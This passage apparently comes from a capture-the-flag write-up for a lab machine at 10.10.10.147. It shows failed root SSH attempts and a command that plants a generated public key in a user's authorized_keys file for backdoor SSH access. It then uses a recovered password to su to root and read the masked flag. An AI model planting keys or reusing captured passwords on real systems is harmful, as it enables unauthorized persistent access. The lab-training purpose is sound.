 `root/u3v2249dl9ptv465cogl3cnpo3fyhk`


<hr width="250" size="6">



ssh in as root:

```
ssh root@10.10.10.147
root@10.10.10.147's password: 
Permission denied, please try again.
root@10.10.10.147's password: 
Permission denied, please try again.
root@10.10.10.147's password: 
root@10.10.10.147: Permission denied (publickey,password).

```


<hr width="250" size="6">


<h3>Copy ssh public rsa to Authorized_keys</h3>


we can generate some ssh id_rsa keys, inject the public one into the user's Authorized_keys
and ssh as user.

```
ssh-keygen -t rsa
```

Select the pwd to save the files.

```
cat id_rsa.pub
```

copy the key, then echo it into an authorized_keys file.


```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/GpLAJJntS2Fkv <----snip--->" > /home/user/.ssh/authorized_keys
```


Then use the counterpart private key to log in.

```
ssh -i id_rsa user@10.10.10.147
```

`su -` to root with the recovered password and get the flag.



```

user@safe:~$ su -
Password: 
root@safe:~# cat /root/root.txt
d7xxxxxxxxxxxxxxxxxxxxxxxxxxxx53
root@safe:~# 

```


:)




